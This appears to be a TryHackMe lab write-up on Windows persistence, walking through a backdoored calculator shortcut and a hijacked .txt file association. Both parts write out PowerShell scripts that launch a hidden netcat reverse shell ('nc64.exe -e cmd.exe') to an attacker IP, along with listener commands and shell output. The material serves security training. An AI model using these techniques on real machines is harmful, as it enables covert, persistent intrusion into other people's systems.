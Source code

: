 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/05/2023

# Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties window

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
3.2 `$scriptContent = @"`
3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
3.4 `C:\Windows\System32\calc.exe`
3.5 `"@` 
3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
4. Change the calculator's target path to be 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1', which will stealthly execute our payload, and change back the calculator's icon back to its default icon to ensure that the user doesn't suspect a thing, since the icon will most likely change after changing it's target path

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20Properties%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

5. `nc -lvnp <PORT NUMBER>`  from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
6. Click on the calculator on the compromised Windows machine, which ended up stealthly executing our payload allowing us to create a reverse shell that connected back to our netcat listener on our attack machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Backdoor%20Script%20Executed%20.png)

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag5.exe` from our reverse shell to run the **flag54.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


**TASK COMPLETED**

# Hijacking File Associations
1. Started this room's machine
2. `regedit` from the compromised Windows machine to open up the Registry Editor (**Regedit**), which we'll then go and later modify the data in the **Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command** registry, since this is what'll get executed whenever we open a **.txt** file on the compromised WIndows machine
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202%20Zoomed%20In.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
3.2 `$scriptContent = @"`
3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
3.4 `C:\Windows\system32\NOTEPAD.EXE $args[0]`
3.5 `"@` 
3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
4. We'll go back into the Registry Editor that opened up already and we'll change the **textfile**'s current value data to be `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`, which will allow our backdoor script to be executed everytime a user open a text file on the compromised machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Default%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data%20pt2.png)

5. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

6. Once our netcat listener, from the compromised Windows machine, we'll open any text file to execute our created payload, which ended up doing so and connecting back to our netcat listener on our attack machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/txt%20File%20Opened.png)

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
7. `C:\flags\flag6.exe` from our reverse shell to run the **flag6.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


**TASK COMPLETED**
